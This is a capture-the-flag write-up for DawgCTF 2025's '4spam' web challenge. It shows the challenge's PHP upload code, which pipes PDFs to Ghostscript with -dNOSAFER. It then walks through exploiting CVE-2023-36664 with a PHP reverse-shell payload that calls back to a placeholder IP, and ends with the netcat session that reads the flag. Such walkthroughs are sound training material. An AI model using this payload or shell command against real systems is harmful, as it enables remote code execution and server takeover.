 ```yaml
---
title: "4spam"
description: "In the wake of last week's events, we've created a replacement (https://4spam.umbccd.net/).\n\nAn old dump of some of the code is available (https://github.com/UMBCCyberDawgs/dawgctf-sp25/blob/main/4spam/4spam.php) under the name 4spam. The flag is at /flag.txt." 
pubDate: 2025-04-29
ctf: "DawgCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-dawgctf/icon.png"
---
```


This challenge is based on the [4chan breach recently](https://www.reuters.com/technology/cybersecurity/notorious-internet-messageboard-4chan-has-been-hacked-posts-claim-2025-04-15/), there was some information about it sent by someone (one of the participants? Observers? Not to sure):
![details.png](images/25-dawgctf/4spam/details.png)

Visiting the web application... yup that's 4chan:
![4spam.png](images/25-dawgctf/4spam/4spam.png)

We are given PHP source code:
```php
<?php

session_start([
    'cookie_httponly' => true,
    'use_strict_mode' => true,
]);

if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

$uploadsDir = __DIR__ . '/uploads';
$maxSize    = 5 * 1024 * 1024; // 5 MB
$allowedExt = ['jpg', 'jpeg', 'png', 'gif', 'pdf', 'webp'];

function getDb(): PDO
{
    static $db = null;

    if ($db === null) {
        $db = new PDO(
            'sqlite:/tmp/imageboard.db'
        );

        $db->exec("CREATE TABLE IF NOT EXISTS posts (
            id          INTEGER PRIMARY KEY AUTOINCREMENT,
            message     TEXT NOT NULL,
            image       TEXT,
            created_at  DATETIME DEFAULT CURRENT_TIMESTAMP
        )");
    }

    return $db;
}

try {
    $db = getDb();
} catch (PDOException $e) {
    die('Database error: ' . $e->getMessage());
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $csrf = $_POST['csrf_token'] ?? '';
    if (!hash_equals($_SESSION['csrf_token'], $csrf)) {
        die('Invalid CSRF token.');
    }

    $message  = trim($_POST['message']  ?? '');
    $imageRel = null;

    if ($message === '') {
        header('Location: ' . htmlspecialchars(basename(__FILE__)));
        exit;
    }

    if (!empty($_FILES['image']['name'])) {
        $ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));

        if (!in_array($ext, $allowedExt, true)) {
            die('Unsupported file type.');
        }
        if ($_FILES['image']['size'] > $maxSize) {
            die('File exceeds maximum size of 5 MB.');
        }
        if (!is_dir($uploadsDir) && !mkdir($uploadsDir, 0755, true)) {
            die('Failed to create uploads directory.');
        }

        $filename = uniqid('img_', true) . '.' . $ext;
        $dest     = $uploadsDir . '/' . $filename;

        if (!move_uploaded_file($_FILES['image']['tmp_name'], $dest)) {
            die('Failed to move uploaded file.');
        }
        $imageRel = 'uploads/' . $filename;

        if ($ext == 'pdf') {
            exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
            exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        } else {
            exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        }
    }

    $stmt = $db->prepare('INSERT INTO posts (message, image) VALUES (?,?)');
    $stmt->execute([$message, $imageRel]);

    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));

    header('Location: ' . htmlspecialchars(basename(__FILE__)));
    exit;
}

$posts = $db->query('SELECT * FROM posts ORDER BY id DESC')->fetchAll(PDO::FETCH_ASSOC);

?>
```

The most interesting snippet is seen here:
```php
if ($ext == 'pdf') {
    exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
    exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
} else {
    exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
}
```

We can see that PDFs are parsed with GhostScript, like the 4chan exploit. With some research we can find a [CVE-2023-36664 PoC](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) for command injection.

We can then use a PHP webshell from Revshells with the CVE to create a PostScript PoC:
```
$ python3 CVE_2023_36664_exploit.py -p "php -r '\$sock=fsockopen(\"xx.xx.xx.xx\",4444);\$proc=proc_open(\"/bin/bash\", array(0=>\$sock, 1=>\$sock, 2=>\$sock),\$pipes);'" -g -x ps
[+] Generated PS payload file: malicious.ps
```

We can then change this to a PDF:
```
$ mv malicious.ps malicious.pdf
```

Once uploaded, we can receive a netcat connection and get the flag:
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [52.87.223.95] 36032
whoami
whoami: cannot find name for user ID 1000
ls
index.php
uploads
view.php
cat /flag.txt
DawgCTF{h4ck3d_by_0pay_expl01t}
```

Flag: `DawgCTF{h4ck3d_by_0pay_expl01t}`